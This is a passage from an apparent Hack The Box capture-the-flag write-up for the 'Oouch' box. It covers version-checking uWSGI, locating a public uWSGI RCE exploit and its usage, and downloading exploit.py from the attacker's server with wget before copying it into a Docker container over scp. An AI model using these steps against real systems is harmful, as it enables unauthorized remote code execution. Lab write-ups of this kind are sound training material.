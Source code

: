```bash
qtc@aeb4525789d8:/code$ uwsgi --version
2.0.17.1
```

I searched for any exploits available for it and found this.

> [https://github.com/wofeiwo/webcgi-exploits](https://github.com/wofeiwo/webcgi-exploits)

I tried the python exploit and checking help reveals that we need to add these options while execution and I checked if `/tmp/uwsgi.sock` is present and socket file is saved in `/tmp/uwsgi.socket`. So Its time to upload.

```bash
root@kali:~/CTF/HTB/Boxes/Oouch# python exploit.py --help
usage: exploit.py [-h] [-m [{http,tcp,unix}]] -u [UWSGI_ADDR] -c [COMMAND]

This is a uwsgi client & RCE exploit. Last modifid at 2018-01-30 by
wofeiwo@80sec.com

optional arguments:
  -h, --help            show this help message and exit
  -m [{http,tcp,unix}], --mode [{http,tcp,unix}]
                        Uwsgi mode: 1. http 2. tcp 3. unix. The default is
                        tcp.
  -u [UWSGI_ADDR], --uwsgi [UWSGI_ADDR]
                        Uwsgi server: 1.2.3.4:5000 or /tmp/uwsgi.sock
  -c [COMMAND], --command [COMMAND]
                        Command: The exploit command you want to execute, must
                        have this.

Example：uwsgi_exp.py -u 1.2.3.4:5000 -c "echo 111>/tmp/abc"
```

The Docker doesn't contain `wget` so I first uploaded it to the normal box and by using `scp` I transferred to the Docker.

```bash
qtc@oouch:~$ wget http://10.10.14.9:8000/exploit.py
--2020-06-09 08:01:59--  http://10.10.14.9:8000/exploit.py
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4427 (4.3K) [text/plain]
Saving to: ‘exploit.py’

exploit.py                    100%[===============================================>]   4.32K  --.-KB/s    in 0.02s   

2020-06-09 08:02:00 (219 KB/s) - ‘exploit.py’ saved [4427/4427]

qtc@oouch:~$ scp -i .ssh/id_rsa exploit.py qtc@172.18.0.3:/tmp/
exploit.py                                                                                                                                   100% 4427     7.3MB/s   00:00
```
